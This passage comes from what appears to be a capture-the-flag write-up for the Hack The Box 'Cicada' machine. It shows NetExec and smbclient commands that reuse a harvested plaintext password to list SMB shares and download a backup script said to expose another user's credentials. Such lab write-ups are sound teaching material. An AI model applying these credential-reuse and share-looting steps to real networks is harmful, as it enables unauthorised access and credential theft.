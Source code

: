 > <u>Note</u>: There is another way to get similar information, by using the [`--users` option](https://www.netexec.wiki/smb-protocol/enumeration/enumerate-domain-users) in NetExec, that I did not know at the time of writing and it is mentioned in [0xdf cicada writeup](https://0xdf.gitlab.io/2025/02/15/htb-cicada.html#enumeration), so I'll keep an eye for a future machine.

We validate `david.orelious`'s credentials and confirm his account has access to the `DEV` share:

```
$ nxc smb 10.10.11.35 -u david.orelious -p 'aRt$Lp#7t*VQ!3' --shares
```

![alt text](assets/david_smbclient.png)

Accessing the DEV share, it shows a file named "Backup_script.ps1", revealing credentials for another user `emily.oscars`:

```
$ smbclient //10.10.11.35/DEV -U 'david.orelious%aRt$Lp#7t*VQ!3'
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Mar 14 12:31:39 2024
  ..                                  D        0  Thu Mar 14 12:21:29 2024
  Backup_script.ps1                   A      601  Wed Aug 28 17:28:22 2024

				4168447 blocks of size 4096. 321115 blocks available
smb: \> get Backup_script.ps1
getting file \Backup_script.ps1 of size 601 as Backup_script.ps1 (0.5 KiloBytes/sec) (average 0.5 KiloBytes/sec)
smb: \> 
```

![alt text](assets/backup_script_ps1.png)
